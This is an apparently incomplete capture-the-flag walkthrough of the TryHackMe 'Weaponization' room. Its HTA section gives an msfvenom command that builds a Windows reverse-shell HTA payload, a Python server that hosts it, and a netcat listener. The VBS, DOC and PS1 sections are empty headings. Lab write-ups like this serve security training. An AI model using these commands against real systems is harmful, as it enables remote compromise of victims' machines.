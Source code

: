 # Weaponization

**Walkthrough:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

**From the room:** The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

We will be exploiting this box with every mentioned above.&#x20;

### HTA

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### VBS

### DOC

### PS1
